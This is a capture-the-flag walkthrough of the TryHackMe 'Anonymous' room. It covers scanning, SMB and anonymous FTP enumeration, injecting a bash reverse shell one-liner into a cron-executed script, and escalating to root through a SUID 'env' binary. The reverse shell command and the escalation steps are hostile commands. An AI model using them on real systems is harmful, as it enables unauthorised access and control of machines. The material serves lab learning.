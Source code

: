 # [Anonymous TryHackMe Writeup/Walkthrough][1]
Not the hacking group

Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have four ports open: `21, 22, 139, 445`.

As SAMBA port is open. Run the SAMBA enumeration scripts. Add command `--script=smb-enum-shares.nse,smb-enum-users.nse`

![Samba Result](images/smb_result.jpg)
> `pics` share is open and we have a read access to it.

Let's connect to PICS shares and see what we have there! CMD -> `smbclinet //<IP>/pics`

![SMB Connect](images/connect_smb.jpg)
> When asked for password, press enter.

There are two files available. Let's download these files to our machine and check the content.

![Get Files](images/get_files.jpg)

These are just images, but what if it has data hidden! I tried `steghide` to extract the content but it requires *passphrase*.

Let's try to connect via `ftp` and check if we can get the *passphrase*. Use credentials `anonymous:anonymous` to login.

![FTP Login](images/ftp_login.jpg)

![FTP Files](images/ftp_files.jpg)

I found three files here. Let's get this files in our machine and check the content.

![Get Files](images/get_ftp_files.jpg)

- to_do.txt -> Haha, Yeah you should!
- remove.sh -> nothing much here.
- clean.sh -> INTERESTING!

![Clean.sh content](images/cat_clean.jpg)
> Seems like file is running periodically as a cronjob. Oh, now the *remove.sh's* content make sense.

We can add a bash one linear in this file and upload it back to the target machine. CMD -> `bash -i >& /dev/tcp/<IP>/4444 0>&1`

![Append Data](images/append_data.jpg)

Start a listener using *netcat*. CMD -> `nc -lvnp 4444`.

Upload the file back to the target machine using `put`.

![Upload Files](images/put_ftp.jpg)

Wait for a while and you will receive a shell.

![Got Shell](images/got_shell.jpg)
> Now that we have the access, let's stabilize the shell.

#### Shell Stable CMDs

```
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256-color
```
Press `Ctrl + Z`

```
stty raw --echo
fg
```

As we have the access, we can get the *user flag*.

![User Flag](images/user_flag.jpg)

For basic enumeration, you can download `linPeas` and run it. It will do all your work. Or you can do it manually.

The user is in `lxd` group, that can be use to exploit. [Reference][3]

Check for SUIDs using `find / -perm -type f -exec ls -la {} 2>/dev/null \; | grep "/usr/bin"`

![SUIDs](images/suids.jpg)

Search these one by one on [GTFOBins][4].

I got shell with `env`. CMD -> `/usr/bin/env /bin/sh -p`

![Root Access](images/root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)

[1]: https://tryhackme.com/room/anonymous
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://www.exploit-db.com/exploits/46978
[4]: https://gtfobins.github.io/
